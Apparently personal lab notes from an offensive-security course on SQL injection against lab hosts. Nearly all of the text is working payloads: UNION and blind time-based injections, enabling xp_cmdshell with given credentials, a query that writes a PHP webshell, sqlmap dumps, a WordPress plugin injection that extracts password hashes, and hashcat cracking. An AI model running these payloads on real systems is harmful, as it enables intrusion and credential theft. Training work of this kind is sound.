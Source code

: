found users table with 4 columns
```
' UNION SELECT null, username, password, description, null FROM users -- //
```

blind sql injections - bool and time, can't see output returned from database
```
http://192.168.206.16/blindsqli.php?user=offsec' AND 1=1 -- //
offsec' AND IF (1=1, sleep(3),'false') -- //

/ AND IF (1=1, sleep(3),'false') -- //
```

# Manual code execution
```
impacket-mssqlclient Administrator:Lab123@192.168.206.18 -windows-auth
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'whoami';
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```

automate sql injection
`sqlmap -u http://192.168.206.19/blindsqli.php?user=1 -p user

^ can identify a time based injection vulnerability, next step is to dump users
`sqlmap -u http://192.168.206.19/blindsqli.php?user=1 -p user --dump

### VM1
```
nmap 192.168.206.47
nmap -sT -A 192.168.206.47
nmap --script http-headers 192.168.206.47
gobuster dir -u http://192.168.206.47:80 -w /usr/share/wordlists/dirb/big.txt -p pattern
sudo nmap -p80 --script=http-enum 192.168.206.47
```

discover that the site is wordpress
```
whatweb alvida-eatery.org
wpscan --url http://alvida-eatery.org --enumerate p
```

Find vulnerability in plugins
- use this vuln: https://wpscan.com/vulnerability/c1620905-7c31-4e62-80f5-1d9635be11ad
- example hashes: https://hashcat.net/wiki/doku.php?id=example_hashes
```
curl http://alvida-eatery.org/wp-admin/admin-ajax.php?action=get_question&question_id=1%20union%20select%201%2C1%2Cchar(116%2C101%2C120%2C116)%2Cuser_login%2Cuser_pass%2C0%2C0%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%2Cnull%20from%20wp_users 
```
found hash
```
$P$BINTaLa8QLMqeXbQtzT2Qfizm2P/nI0
hashcat -D 1 -d 1 -m 400 -a 0 -S 10.2-hash /usr/share/wordlists/rockyou.txt
```
